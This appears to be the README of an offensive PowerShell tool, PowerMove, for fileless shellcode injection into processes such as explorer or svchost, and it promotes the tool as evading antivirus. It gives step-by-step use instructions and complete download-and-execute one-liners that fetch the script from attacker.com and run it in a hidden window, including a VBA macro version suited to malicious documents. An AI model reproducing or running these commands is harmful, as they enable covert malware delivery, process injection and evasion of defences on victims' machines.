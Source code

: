 ![alt text](https://github.com/10N351R/PowerMove/blob/main/Images/Logo_video2.gif)
# PowerMove.ps1
Author: 10N351R


PowerMove is a fileless process injector written in PowerShell for injecting shellcode and migrating your shell to new processes. PowerMove uses common WINAPIs such as `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` to perform simple process injections. This combination of WINAPIs are often detected by anti-virus solutions when stored on disk but will bypass these protections when executed exclusively in memory.

Tested on PowerShell version: `5.1.19041.4522`

## Instructions
To use PowerMove in an existing PowerShell shell
1. Copy the contents of PowerMove.ps1 into a text editor
2. Edit the `$targetPid` variable with the PID of the target process to inject into
3. Edit the `$shellcode` variable with the payload you wish to inject
4. Copy the contents from the beginning `###` to the end `###` to your clipboard
5. Paste the contents into your existing PowerShell shell and press `Enter`
6. Enjoy the benifits fileless process injection

## Output
![alt text](https://github.com/10N351R/PowerMove/blob/main/Images/PowerMove_output.png)

# PowerMove_dynamic.ps1
`PowerMove_dynamic.ps1` was created to add dynamic PID resolution to enable remote execution via COM objects in a VBA macro without embedding.

Tested on PowerShell version: `5.1.26100.4202`

## Instructions
`PowerMove_dynamic.ps1` can be executed in a Visual Basic for Applications (VBA) macro, or directly from PowerShell.
1. Copy the contents of `PowerMove_dynamic.ps1` into a text editor
2. Edit the `$targetProcName` variable with the name of the process you want to target (eg. `notepad`,`explorer`,`svchost`)
3. Edit the `$shellcode` variable with the payload you wish to inject
4. Host `PowerMove_dynamic.ps1` on a server reachable by the target
5. Execute on the target

### Using PowerShell
```powershell
powershell.exe -nop -w hidden -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','http://attacker.com/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText""
```

### Using VBA Macro
```vba
Sub TEST()
    Dim ps As String
    ps = "powershell.exe -nop -w hidden -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','http://attacker.com/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText"""
    Shell ps, vbHide
End Sub
```

### Testing
```powershell
powershell.exe -nop -NoExit -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','https://raw.githubusercontent.com/10N351R/PowerMove/refs/heads/main/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText""
```

## Disclaimer
**Ethical Use:** PowerMove is provided for educational and lawful purposes only. The author is not responsible for any misuse or damaged caused by this tool. By using this tool, you agree to use it ethically and comply with all applicable laws and regulations. Unauthorized use of this tool is strictly prohibited and may result in severe legal consequences.

**Use Of Artificial Intelligence:** This tool was partially developed with the assistance of Artificial Intelligence (AI), and contains portions of code generated using OpenAI's ChatGPT, an AI language model.
